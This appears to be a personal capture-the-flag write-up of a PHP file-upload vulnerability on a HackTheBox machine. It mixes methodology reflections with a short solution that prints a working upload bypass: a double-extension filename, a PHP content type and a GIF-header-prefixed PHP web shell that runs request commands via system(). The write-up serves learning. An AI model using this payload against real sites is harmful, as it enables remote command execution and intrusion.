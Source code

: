 So I researched
[explode](https://www.php.net/manual/en/function.explode.php) - Split a string by a string
[array_shift](https://www.php.net/manual/en/function.array-shift.php) - Shift an element off the beginning of array
[implode](https://www.php.net/manual/en/function.implode.php) - Join array elements with a string
![](itplonksitbackontheend.png)

The extension are being compared to the database.

![](aaaaaaaaaaaaaargh.png)

In conclusion I learnt the level compatency I am under pressure and with a language I do not write code in, but face and am expose to through CTFs. I over thought the problem rather than simplify:
1. Linear parse to understand what it is doing - not its purpose! 
	- Extract functions and describe functionality in one sentence
	- Highlight inline calls, link dependencies
	- Chain testing a hypothetical data test that for significant control flow and data handling - vulnerability basis  
		- This highlights what checks per vulnerabilty 
1.  Error code minor difference make the difference 

```bash
grep -Ri '$_' * # Find Super globals - user interactive
php -a # Interactive php to test code
```

The solution
```php
# nest the file type not append
filename=file.php.gif
# Add content type
Content-Type: application/x-php

# We need to add a mime type and colon
GIF8;<?php system($_REQUEST['cmd']); ?>
```

I  was so close I just did not try the extension the other way around. That check for myself made it into my methodolopgical checks so I really felt think although this seemed from the outset like a massive failure on my part, but really after some thought this was actually a real success. I have found it is the liTTLe details that really make or break anything in hacking checks and following and managing the flow of checks and data result from those checks as important in improve success rate.

Amusingly I tried other writeups I felt like my original attempt of appending php to a picture was actual the moethod of [snowscan](https://snowscan.io/htb-writeup-networked/#) top 100 HTB. To mock my own reading to ensure improvement I decide to use this picture as some of the fun of CTF file upload vulnerabilities is funny files to upload.

![](justboomerwithrocketlauncher.png)

![](rocketing.png)

Phpinfo is great for testnig php related vulnerabilities
![](phpinfoisbetterfortesting.png)
